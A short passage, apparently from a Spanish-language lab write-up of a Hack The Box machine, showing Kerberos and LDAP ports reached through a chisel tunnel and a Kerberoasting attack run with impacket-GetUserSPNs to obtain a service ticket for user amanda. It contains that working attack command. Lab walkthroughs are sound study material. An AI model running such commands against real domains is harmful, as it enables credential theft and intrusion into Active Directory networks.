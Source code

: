 <figure><img src="../../../../../.gitbook/assets/3413_vmware_TTjkZBWK7O.png" alt=""><figcaption></figcaption></figure>

Revisaremos que en nuestro equipo, los puertos 88 (Kerberos) y 389 (LDAP) se encuentran accesibles correctamente a través de chisel.

<figure><img src="../../../../../.gitbook/assets/3414_vmware_NN9KNnXF1E.png" alt=""><figcaption></figcaption></figure>

Pocederemos de realizar nuevamente el ataque mediante la herramienta de _**impacket-GetUserSPNs**_ al localhost (127.0.0.1) y verificamos que ahora si hemos podido realizar el ataque desde la máquina Kali y hemos obtenido el TGS (Ticket Granting Service).

```bash
impacket-GetUserSPNs -dc-ip 127.0.0.1 htb.local/amanda -request 2>/dev/null
```

<figure><img src="../../../../../.gitbook/assets/3415_vmware_6AKjKenXAP.png" alt=""><figcaption></figcaption></figure>
